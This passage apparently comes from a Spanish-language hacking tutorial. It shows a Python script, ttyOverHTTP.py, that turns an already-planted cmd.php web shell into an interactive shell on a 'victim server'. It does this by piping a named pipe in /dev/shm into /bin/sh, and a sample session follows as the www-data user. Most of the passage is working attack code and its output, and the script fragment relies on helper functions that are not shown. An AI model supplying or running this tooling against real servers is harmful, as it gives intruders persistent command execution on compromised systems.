 ```python
def ReadCmd():
        GetOutput = """/bin/cat %s""" % (stdout)
        output = RunCmd(GetOutput)
        return output

def SetupShell():
	NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
	try:
		RunCmd(NamedPipes)
	except:
		None
	return None

global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
	print("\n\n[*] Exiting...\n")
	print("[*] Removing files...\n")
	RunCmd(erasestdin)
	RunCmd(erasestdout)
	print("[*] All files have been deleted\n")
	sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
	cmd = input("> ")
	WriteCmd(cmd + "\n")
	time.sleep(1.1)
```

* **Importante**: En este caso estamos tirando contra la `127.0.0.1` suponiendo que el fichero se llama `cmd.php`, en vuestro caso lo tendréis que cambiar a lo que os toque.

Entonces bien, imaginad que ya tenéis un archivo `cmd.php` alojado en el servidor víctima, pues mirad que sencillo:

```go
┌─[k4lelv@parrot]─[~/Desktop/example]
└──╼ $python3 ttyOverHTTP.py 
> whoami
www-data
> pwd
/var/www/html
> cd /home
> pwd
/home
> ls -l
total 0
drwxr-xr-x 1 k4lelv k4lelv 1156 Feb  4 12:19 k4lelv
```
